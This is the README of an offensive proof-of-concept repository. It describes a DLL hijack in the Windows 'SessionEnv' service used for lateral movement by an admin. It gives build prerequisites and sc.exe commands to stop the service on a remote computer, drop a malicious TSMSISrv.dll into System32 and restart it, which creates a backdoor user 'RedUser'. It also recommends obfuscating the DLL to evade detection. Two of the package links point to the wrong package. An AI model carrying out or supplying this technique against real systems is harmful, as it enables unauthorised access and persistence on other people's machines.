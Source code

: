 # TSMSI-SRV-FI-POC

## Description

The default service titled 'SessionEnv' contains a DLL hijack.
A user with admin privileges can utilize this service for lateral movement to a remote machine using the Execute Method below.

This POC in C# leverages the called functions of the TSMSISrv.dll by including malicious instructions within StartComponent.

The result of the script: creates a new Windows user called 'RedUser'

## Build Process

Please ensure you have the UnmanagedExports Package installed and are building for your target architecture e.g Framework 4.0.

Other NuGet Packages that are required for the build: 

* Costura.Fody 3.3.3 - https://www.nuget.org/packages/Costura.Fody/3.3.3
* Fody 4.0.2 - https://nuget.info/packages/Costura.Fody/3.3.3
* Unmanaged Exports 1.2.7 - https://www.nuget.org/packages/Costura.Fody/3.3.3

## Execution Instructions

1. `sc.exe \\REMOTECOMPUTER stop SessionEnv`
2. `copy TSMSISrv.dll to C:\Windows\System32\TSMSISrv.dll`
3. `sc.exe \\REMOTECOMPUTER start SessionEnv`

Execution should have occurred on the remote machine and added a new user called "RedUser"

Suggestion: Run the project through offensive pipeline to obfuscate the DLL.
